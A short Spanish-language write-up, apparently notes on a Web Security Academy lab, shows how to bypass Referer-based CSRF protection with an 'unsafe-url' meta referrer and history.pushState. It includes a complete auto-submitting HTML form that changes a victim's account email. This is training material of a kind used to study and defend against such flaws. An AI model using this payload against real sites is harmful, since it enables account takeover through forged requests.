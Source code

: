 
## Objetivo:

![[Pasted image 20240520222942.png]]

## Solucion:

Usar `<meta name="referrer" content="unsafe-url">` para que me NO ME QUITE todo lo que siga despues del sitio web, por ejemplo si el referrer es https://www.google.com/easy/money entonces por seguridad el navegador solo enviara https://www.google.com/ entonces al suar esa `<meta>` con esa configuracion evitamos que el navegador lo quite entonces quedaria como https://www.google.com/easy/money

![[Pasted image 20240520223004.png]]

```
<!DOCTYPE html>

<html lang="en">

<head>

<meta charset="UTF-8">

<meta name="viewport" content="width=device-width, initial-scale=1.0">

<title>Document</title>

<meta name="referrer" content="unsafe-url" >

</head>

  

<body>

<form action="https://0abf0072039db20983fd93f6001a001f.web-security-academy.net/my-account/change-email" method="post">

<input type="hidden" name="email" value="pwned@gmail.com" />

</form>

<script>

history.pushState('', '', '0abf0072039db20983fd93f6001a001f.web-security-academy.net')

document.forms[0].submit()

</script>

</body>

</html>
```
